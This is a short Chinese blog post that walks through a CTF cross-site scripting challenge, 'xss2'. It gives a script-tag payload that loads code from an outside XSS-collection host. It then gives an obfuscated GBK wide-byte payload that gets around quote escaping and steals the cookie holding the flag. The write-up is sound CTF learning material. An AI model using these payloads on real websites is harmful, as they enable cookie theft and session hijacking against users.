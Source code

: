 ```yaml
---
layout:     post
title:      2019-05-03 收获 总结
subtitle:  ctf xss2解题
date:       2019-05-03
author:     DaYou
header-img: img/post-bg-cook.jpg
catalog: true
---
```

##  0x1 题目描述
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g2oia8uei0j30g30cjgm1.jpg)

## 0x2 所用工具
xss平台。我做题目时，题目中给的xss平台打不开了，我自己又找了一个-[](http://xss.fbisb.com/xss.php)

## 0x3 解题步骤
这一道题和xss1的区别是：xss1明确给出了过滤的内容，这道题需要自己测试过滤了什么。输入
```
<script src=http://xss.fbisb.com/TEvn></script>//
```
检查源代码：
![](https://wx1.sinaimg.cn/mw1024/0079f8Holy1g2oia8ce60j30hp091aae.jpg)
可以看出过滤内容：<替换为空白，'替换为\',"替换为\"。所以要将编码绕过。根据源代码提示网页使用GBK字符集，所以用ASCII编码进行绕过。
编码后的payload:
```
%a0%22;document.write(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,104,116,116,112,58,47,47,120,115,115,46,102,98,105,115,98,46,99,111,109,47,84,69,118,110,62,60,47,115,99,114,105,112,116,62));//
```
提交后得到cookie也得到flag.
